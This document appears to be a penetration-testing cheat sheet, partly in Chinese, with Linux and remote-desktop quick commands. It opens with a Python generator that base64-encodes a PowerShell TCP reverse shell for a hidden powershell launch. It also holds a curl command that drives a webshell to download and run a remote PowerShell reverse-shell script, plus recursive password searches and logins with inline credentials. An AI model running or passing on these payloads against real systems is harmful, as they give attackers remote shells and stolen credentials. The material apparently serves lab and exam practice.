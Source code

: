 ## Powershell Base64 Generator
``` python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

# Linux 指令速查
>[!WARNING]
>善用Linux基礎指令，可以加快蒐集資料的速度
- 將raw-json翻譯成json
```
echo -n 'JSON FORMAT' | jq .
```
- 抓.config檔案內的版本號
``` shell
grep -i verion web.config
```
- 搜尋目錄以下所有的password
``` shell
grep -Ri password . 
```
- 搜尋目錄以下所有的password，但是過濾掉Lang
``` shell
grep -Ri password . | grep -v Lang
```
- 當處理一堆資料夾及一堆資料夾裡面的資料時，可以這樣把裡面的東西都輸出到`web.dir`
``` shell
find . -ls > web.dir
```
- curl for webshell
``` shell
curl http://192.168.248.249:8000/cms/media/webshell.pHp --get --data-urlencode "cmd=powershell -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.234/Invoke-PowerShellTcp.ps1')"
```
- Upload File
``` shell
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@//home/arri/Desktop/Amaterasu/test.txt" -F filename="/tmp/test.txt" [http://$IP:33414/file-upload](http://$ip:33414/file-upload.)
```
- 快速下載所有FTP的東西
```
wget --mirror ftp://username:password@ip.of.old.host
```
- 複製整包資料夾內的東西
``` bash
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/stdx-gp
```
## 遠端桌面相關
### 連線指令
- rdesktop
```
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```